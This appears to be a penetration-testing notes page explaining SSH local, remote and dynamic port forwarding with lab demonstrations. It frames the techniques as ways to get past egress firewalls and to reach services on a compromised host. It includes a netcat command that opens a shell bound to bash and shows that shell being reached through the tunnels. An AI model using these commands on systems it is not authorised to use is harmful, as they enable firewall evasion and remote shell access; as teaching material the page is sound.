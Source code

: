 ```yaml
---
description: Exploring SSH tunneling
---
```


# SSH Tunnelling / Port Forwarding

## SSH: Local Port Forwarding

If you are on the network that restricts you from establishing certain connections to the outside world, local port forwarding allows you to bypass this limitation.   
  
For example, if you have a host that you want to access, but the egress firewall won't allow this, the below will help:

```csharp
ssh -L 127.0.0.1:8080:REMOTE_HOST:PORT user@SSH_SERVER
```

All the traffic will flow through the SSH\_SERVER which DOES have access to the host you want to access. Let's see an example.

#### On machine 10.0.0.5

The below reads: bind on a local port 9999 \(on a host 10.0.0.5\). Listen for any traffic coming to that port 9999 \(i.e 127.0.0.1:9999 or 10.0.0.5:9999\) and forward it all that to the port 4444 on host 10.0.0.12:

```csharp
ssh -L9999:10.0.0.12:4444 root@10.0.0.12 -N -f
```

We can see that the 127.0.0.1:9999 is now indeed listening:

![](../.gitbook/assets/ssh-local-bind.png)

#### On machine 10.0.0.12

Machine 10.0.0.12 is listening on port 4444 - it is ready to give a reverse shell to whoever joins

![](../.gitbook/assets/ssh-local-port-1.png)

#### On machine 10.0.0.5

Since the machine is listening on 127.0.0.1:9999, let's netcat it - this should give us a reverse shell from 10.0.0.12:4444:

![](../.gitbook/assets/ssh-local-port-2.png)

The above indeed shows that we got a reverse shell from 10.0.0.12 and the local tunnel worked.

## SSH: Remote Port Forwarding

Remote port forwarding helps in situations when you have compromised a box that has a service running on a port bound to 127.0.0.1, but you want to access that service from outside. In other words, remote port forwarding exposes an obscured port to the host you want to connect to.

Pseudo syntax for creating remote port forwarding with ssh tunnels is:

```csharp
ssh -R 5555:LOCAL_HOST:3389 user@SSH_SERVER
```

The above suggests that any traffic sent to port 5555 on SSH\_SERVER will be forwarded to the port 3389 on the LOCAL\_HOST - the host that runs the service that is only accessible from inside that host.

#### On machine 10.0.0.12

Let's create a reverse shell listener bound to 127.0.0.1 \(not reachable to hosts from outside\) on port 4444:

```csharp
nc -lp 4444 -s 127.0.0.1 -e /bin/bash & ss -lt
```

![](../.gitbook/assets/ssh-remote-hidden.png)

Now, let's open a tunnel to 10.0.0.5 and create remote port forwarding by exposing the port 4444 for the host 10.0.0.5:

```csharp
ssh -R5555:localhost:4444 root@10.0.0.5 -fN
```

The above says: bind a port 5555 on 10.0.0.5 and make sure that any traffic sent to port 5555 on 10.0.0.5, please send it over to port 4444 on to this box \(10.0.0.12\).

#### On machine 10.0.0.5

Indeed, we can see a port 5555 got opened up on 10.0.0.5 as part of the tunnel creation:

![](../.gitbook/assets/ssh-remote-exposed.png)

Let's try sending some traffic to 127.0.0.1:5555 - this should give us a reverse shell from the 10.0.0.12:4444 - which it did:

![](../.gitbook/assets/ssh-remote-shell.png)

## SSH: Dynamic Port Forwarding

Pseudo syntax for creating dynamic port forwarding:

```csharp
ssh -D 127.0.0.1:9090 user@SSH_SERVER
```

The above essentially means: bind port 9090 on localhost and any traffic that gets sent to this port, please relay it to the SSH\_SERVER - I trust it to make the connections for me. Once it gets a response, please send that data back to me.

For the demo, let's check what is our current IP before the dynamic port forwarding is set up:

![](../.gitbook/assets/ssh-dynamic-port-forwarding-myip1.png)

Creating an ssh tunnel to 159.65.200.10 and binding port 9090 on the local machine 10.0.0.5:

```csharp
ssh -D9090 root@159.65.200.10
```

![](../.gitbook/assets/ssh-dynamic-port-forwarding-create-tunel.png)

Checking network connections on the localhost 10.0.0.5, we can see that the port 9090 is now listening:

![](../.gitbook/assets/ssh-dynamic-port-forwarding-port-listening.png)

This means that if we send any traffic to 127.0.0.1:9090, that traffic will be sent to the hosts on the other end of the ssh tunnel - 159.65.200.10 and then the host 159.65.200.10 will make connections to other hosts on behalf of the host 10.0.0.5. It will return any data it receives back to the originating host 10.0.0.5.

To test this, we can set our browser to use a socks5 proxy server 127.0.0.1:9090 like so:

![](../.gitbook/assets/ssh-dynamic-port-forwarding-configure-browser.png)

If we check what our IP is again, it is obvious that we are now indeed masquerading the internet as 159.65.200.10:

![](../.gitbook/assets/ssh-dynamic-port-forwarding-myip2.png)

{% hint style="info" %}
Dynamic port forwarding plays along nicely with ProxyChains.
{% endhint %}

## References

{% embed url="https://blog.trackets.com/2014/05/17/ssh-tunnel-local-and-remote-port-forwarding-explained-with-examples.html" %}



